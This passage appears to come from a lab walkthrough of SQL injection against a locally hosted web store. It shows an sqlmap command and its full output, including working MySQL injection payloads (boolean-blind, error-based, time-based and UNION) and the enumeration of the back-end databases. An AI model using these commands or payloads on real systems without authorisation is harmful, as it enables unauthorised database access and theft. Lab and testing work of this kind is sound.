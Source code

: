 Now that we know the Store is vulnerable, let's use the `--dbs` option to enumerate DBMS databases.

```console
root@kali:~/gds# sqlmap -u "http://localhost:8080/index.php?route=product/product&product_id=53" -p product_id --dbs
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.0.12#stable}
|_ -| . [,]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 21:50:58

[21:50:58] [INFO] resuming back-end DBMS 'mysql' 
[21:50:58] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: product_id (GET)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: route=product/product&product_id=53 RLIKE (SELECT (CASE WHEN (7914=7914) THEN 53 ELSE 0x28 END))

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: route=product/product&product_id=53 AND (SELECT 8445 FROM(SELECT COUNT(*),CONCAT(0x717a707671,(SELECT (ELT(8445=8445,1))),0x716a626a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: route=product/product&product_id=53 AND SLEEP(5)

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: route=product/product&product_id=53 UNION ALL SELECT NULL,NULL,CONCAT(0x717a707671,0x725662454c43554b68684f43466171746e51794c4a6d677568725856746f66754654414a6e635452,0x716a626a71)-- FTqd
---
[21:50:58] [INFO] the back-end DBMS is MySQL
web application technology: PHP 5.4.45, Nginx
back-end DBMS: MySQL >= 5.0
[21:50:58] [INFO] fetching database names
[21:50:58] [WARNING] reflective value(s) found and filtering out
[21:50:58] [INFO] the SQL query used returns 2 entries
[21:50:59] [INFO] retrieved: information_schema
[21:50:59] [INFO] retrieved: testlab
available databases [2]:                                                       
[*] information_schema
[*] testlab

[21:50:59] [INFO] fetched data logged to text files under '/root/.sqlmap/output/localhost'

[*] shutting down at 21:50:59
```
